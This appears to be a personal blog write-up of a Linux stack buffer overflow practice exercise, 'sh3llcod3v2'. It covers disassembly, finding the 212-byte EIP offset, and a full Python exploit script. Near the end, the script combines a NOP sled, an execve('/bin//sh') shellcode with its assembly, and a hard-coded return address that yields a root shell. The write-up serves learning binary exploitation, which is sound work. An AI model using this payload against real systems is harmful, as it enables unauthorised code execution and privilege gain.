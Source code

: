 ```yaml
---
title: "Linux Buffer Overflow Practice: Sh3llcod3v2"
date: 2019-09-08T02:48:44+02:00
tags:
  - writeup
  - binary-exploitation
showdate: true
toc: true
---
```


One day a friend sent me a Linux buffer overflow exercise he was asked to solve, so I happily gave him a hand and dag a bit deeper than needed with the "reverse engineering" (which was just taking a look at how C functions would olook like in ASM) just for fun and to become more familiar with x86 ASM, so what came out of it was this bunch of notes on a very simple binary, how it works, and how I exploited it. Nothing too fancy. The binary is called "sh3llcod3v2" and I couldn't find it anywhere so I have no clue where he got it from, I hope I'm not breaking any rules by posting this. Also I apologize for the excessive use of images instead of text on this writeup, but the shared clipboard wouldn't work on Ubuntu so it's either this or nothing.

---

## Function analysis: puts()

![img](/images/shellcodev2/0.png)

Before we analyze the executable it would be better to know how the standard functions it uses work. Because of that we are going to see a few prototypes in C and how they look like after they've been compiled. First of all we can use ltrace to see which library calls the program performs during runtime:

![img](/images/shellcodev2/1.png)

From this output we can tell the program uses *printf* to show the banner, *puts* to output strings for the rest of the program, and finally *read* to receive a string in input, which apparently can be up to 1000 characters long. *setvbuf* is also used to set the behavior of the stdin and stdout buffers, I'll explain it a bit more in detail when we come to the disassembling bit (I didn't include the prototypes for *setvbuf* out of laziness, sorry about that). We can start our analysis of the prototypes from *puts*, by simply outputting a simple string. We can consult the Linux man pages to see which arguments it needs and what behavior to expect:

![img](/images/shellcodev2/2.png)


So the only argument puts needs is a string, and it will be written on to stdout with a \n at the end, so we don't have to include it ourselves in the string:

![img](/images/shellcodev2/3.png)

Now we can examine its disassembly:

![img](/images/shellcodev2/4.png)

---

## Function analysis: read() + for loop

Next on the list is *read*, let's see its description again from the Linux man pages:

![img](/images/shellcodev2/5.png)

With this information we can write another short test program in C:

![img](/images/shellcodev2/6.png)

Notice how after receiving the string in input we cycle through all its characters to delete the final \n, because the *read* function will include it in the final string, and we need that character out of the way in order to display the final message correctly. Using this *for* loop will also make the code a little longer, but more interesting as well, here it is, heavily commented to describe what happens at every little step:

![img](/images/shellcodev2/7.png)

The code above will be very helpful to understand our vulnerable program.

---

## Analyzing the target


Armed with this knowledge we can go back to our vulnerable executable and see how it works. Here are some useful strings obtained with the *strings* command from the gdb command line (+ PEDA.py to help with the exploit development process), we can use these to better understand the behavior of the program:

![img](/images/shellcodev2/8.png)

Now we can disassemble the program by starting from the *main* function:

![img](/images/shellcodev2/9.png)

This *main* function dictates how to treat the stdin and stdout buffers during runtime, prints the banner, and then passes execution to the *prog* function, which looks like this:

![img](/images/shellcodev2/10.png)

All this function does is allocating around 200 bytes of fresh memory on the stack and passing a pointer to that memory region to the *get_name* function. Once *get_name* returns the content of that very same memory region is printed out with *printf* through the %s format string. Still nothing too interesting here, but at least we know how big the buffer should be now. Let's check out the get_name function then, time to squint the eyes:

![img](/images/shellcodev2/11.png)

Good, now we know exactly what the program does, how, and where our data will be saved. To be specific, the program will ask for a name but will stop the normal flow if it encounters any null byte (0x00) in our string. Because null bytes are used to terminate strings and the *read* function will read up to 999 characters, we have to trick the program by sending a string that is at least 999 characters long, so the terminator character will be the 1000th character and the function won't read it, thus continuing execution.

A thousand bytes are a lot to work with but this should also make our job easy because we aren't restricted to short shellcodes, even if I'm going to use one because of convenience. So let's get our hands dirty. First of all we need to know exactly after how many bytes we will reach the instruction pointer, in order to do that we generate a very long never-repeating string that will be used as input, it will crash the program, and we can see the content of EIP to get what offset of the string overwritten it. Using PEDA makes this task very easy:

![img](/images/shellcodev2/12.png)

Once we press enter the program will crash and we will get a view of the current status of the memory and every register:

![img](/images/shellcodev2/13.png)

The debugger tells us we run into a SIGSEGV error, so a segmentation fault, the program tried to access a memory address it had no control over, meaning EIP has been altered and in fact we can see its value is 0x25412425, hexadecimal representation of the string "%$A%". We can now see where exactly that sub-string is at in our original input, to know what offset of the input will overwrite EIP allowing us to redirect it wherever we want:

![img](/images/shellcodev2/14.png)

Good, we know we will need 212 bytes of data before we can overwrite the instruction pointer, so we can start working on our exploit now.

---

## Writing the exploit

There is more than one approach, we can check what security measures are enabled on the executable to evaluate which are the most convenient:

![img](/images/shellcodev2/15.png)

There isn't a single exploit prevention system enabled (except for ASLR on our own computer), and we know the buffer will always be located at the hard-coded memory address 0x804c060 as we have seen in the disassembly, so we might as well inject some shellcode in the buffer and jump to it since the stack is executable. I like writing my exploits in Python so here is a rough draft of one:

```python
import struct
import sys

# this variable contains the address that will overwrite EEIP, it's exactly where our
# buffer begins, where it fill find a NOP sled that leads to the shellcode
jmp_address = struct.pack("<I", 0x804c060)

# a simple null-free execve() shellcode, for a total of 23 bytes
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# first NOP sled that leads to the shellcode
sled1 = "\x90" * 60

# another sled, this one will just fill the space between the shellcode and
# jmp_address, so sled1 + shellcode + sled2 = 212 bytes
sled2 = "\x90" * 129

# the rest of the input can be random garbage, we need it only to have at least
# 999 bytes of null-free data
junk = "A" * 800

# craft the actual payload
payload = sled1 + shellcode + sled2 + jmp_address + junk

# and feed it to the vulnerable program
print payload
sys.stdout.flush()
```

The shellcode was taken [here](http://shell-storm.org/shellcode/files/shellcode-827.php).

```shell-session
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```


This is the original ASM code:

```assembly
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80
```


Basically it calls the execve() system call giving it the string "/bin//sh" as parameter. The double slash is needed to fit the string in exactly 8 bytes, we need it to be 8 bytes long or else it would be filled with zeros, and the program would reject it. We can now launch the exploit:

![img](/images/shellcodev2/16.png)

And it worked! Here is a short description of what these last steps did:

- Used python + cat to launch the exploit and pass its output to the input of the vulnerable program
- The program runs its course until it jumps to our shellcode and spawns a shell. Unfortunately this is a non-interactive shell, so...
- We use Python to spawn a new instance of /bin/bash so we have a semi-interactive shell
- Profit! Because we are root we can do anything we please, in this case I listed the content of /root/ as proof of the superuser privileges


Fun challenge indeed. A big thank you goes to Chappie for sending it to me and suggesting the use of cat, the exploit wouldn't work before. Cheers!

